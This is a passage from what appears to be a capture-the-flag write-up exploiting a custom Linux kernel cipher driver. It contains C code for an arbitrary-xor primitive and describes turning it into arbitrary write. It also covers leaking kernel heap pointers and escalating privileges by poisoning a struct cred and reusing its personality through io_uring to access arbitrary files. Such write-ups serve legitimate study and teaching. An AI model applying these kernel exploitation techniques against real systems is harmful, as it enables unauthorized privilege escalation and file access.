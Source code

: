 ### Arbitrary "xor"
For fun let's construct the arbitrary xor. This primitive would xor exactly 1 desired byte with 1 byte provided by us. 

Just set `kciph->str=desired_addr`, `kciph->size=1`, `kciph->byt=byte_to_xor_with`, `kciph->ciph_id=1`.

```
char arbxor(uint64_t addr, char byt) {
    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = byt,  // for read: does not change contents
        .size = 1,  // size_t
        .str = addr, // arb addr, will be overwritten
        .lock = 0x0
    };

    xor(&fake, 0x43, sizeof(fake));
    EXIT_ON_ERR(write(cfd[1], &fake, sizeof(fake)) < 0);
    // de-xor
    struct kcipher fake_in_kernel;
    EXIT_ON_ERR(read(cfd[1], &fake_in_kernel, sizeof(fake_in_kernel)) < 0);
    assert(fake_in_kernel.str == addr);
    assert(fake_in_kernel.size == 1);
    assert(fake_in_kernel.byt == byt);


    char newbyte;
    EXIT_ON_ERR(read(cfd[2], &newbyte, 1) < 0);
    return newbyte;
}
```

### Arbitrary "write" (not needed for this exploitation)
Our 2 primitives can be transformed into arbitrary write. My exploit didn't need it. Still let's quickly discuss how to "arbwrite" in case it's suitable for your exploitation. 
All you need is firstly to `current_byte = arbread(desired_addr, size=1)`. Then you do `arbxor(desired_addr, current_byte ^ desired_byte)`.

## Exploitation
It all came down to this part.

### kheap leak
Leaking kheap is easy after our `basic_setup`: `cfd[0]->str := cfd[1]`, `cfd[1]->str := cfd[2]`. As soon as `read(cfd[0])` the returned data is actually the `struct kcipher` of `cfd[1]`.
So `((struct kcipher*)data)->str` is the pointer to `struct kcipher` of `cfd[2]` which is allocated on kheap.

### io_uring
The technique came from author's solution of 'flipper' problem from recent zer0pts-2023. We set up `struct cred` on heap, then poison it setting `cred->cap_effective=CAP_DAC_READ_SEARCH`(=0x02) 
which lets user with this `cred` to read/write from arbitrary files by using `io_uring` and setting `sqe->personality=poisoned_personality`.
